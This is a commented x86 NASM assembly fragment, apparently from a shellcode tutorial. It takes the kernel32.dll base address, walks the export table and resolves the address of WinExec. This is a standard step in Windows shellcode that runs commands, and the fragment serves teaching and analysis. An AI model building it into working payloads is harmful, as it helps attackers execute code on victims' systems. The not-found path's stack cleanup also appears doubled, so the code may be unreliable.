 ```nasm
mov ebx, [ebx]	
mov ebx, [ebx]	
mov ebx, [ebx + 0x10]		; ebx holds kernel32.dll base address
mov [ebp-8], ebx 		; var8 = kernel32.dll base address

; Find WinExec address
mov eax, [ebx + 3Ch]		; RVA of PE signature
add eax, ebx       		; Address of PE signature = base address + RVA of PE signature
mov eax, [eax + 78h]		; RVA of Export Table
add eax, ebx 			; Address of Export Table

mov ecx, [eax + 24h]		; RVA of Ordinal Table
add ecx, ebx 			; Address of Ordinal Table
mov [ebp-0Ch], ecx 		; var12 = Address of Ordinal Table

mov edi, [eax + 20h] 		; RVA of Name Pointer Table
add edi, ebx 			; Address of Name Pointer Table
mov [ebp-10h], edi 		; var16 = Address of Name Pointer Table

mov edx, [eax + 1Ch] 		; RVA of Address Table
add edx, ebx 			; Address of Address Table
mov [ebp-14h], edx 		; var20 = Address of Address Table

mov edx, [eax + 14h] 		; Number of exported functions

xor eax, eax 			; counter = 0

.loop:
        mov edi, [ebp-10h] 	; edi = var16 = Address of Name Pointer Table
        mov esi, [ebp-4] 	; esi = var4 = "WinExec\x00"
        xor ecx, ecx

        cld  			; set DF=0 => process strings from left to right
        mov edi, [edi + eax*4]	; Entries in Name Pointer Table are 4 bytes long
        			; edi = RVA Nth entry = Address of Name Table * 4
        add edi, ebx       	; edi = address of string = base address + RVA Nth entry
        add cx, 8 		; Length of strings to compare (len('WinExec') = 8)
        repe cmpsb        	; Compare the first 8 bytes of strings in 
        			; esi and edi registers. ZF=1 if equal, ZF=0 if not
        jz start.found

        inc eax 		; counter++
        cmp eax, edx    	; check if last function is reached
        jb start.loop 		; if not the last -> loop

        add esp, 26h      		
        jmp start.end 		; if function is not found, jump to end

.found:
	; the counter (eax) now holds the position of WinExec

        mov ecx, [ebp-0Ch]	; ecx = var12 = Address of Ordinal Table
        mov edx, [ebp-14h]  	; edx = var20 = Address of Address Table

        mov ax, [ecx + eax*2] 	; ax = ordinal number = var12 + (counter * 2)
        mov eax, [edx + eax*4] 	; eax = RVA of function = var20 + (ordinal * 4)
        add eax, ebx 		; eax = address of WinExec = 
        			; = kernel32.dll base address + RVA of WinExec

.end:
	add esp, 26h		; clear the stack
	pop ebp
	ret
```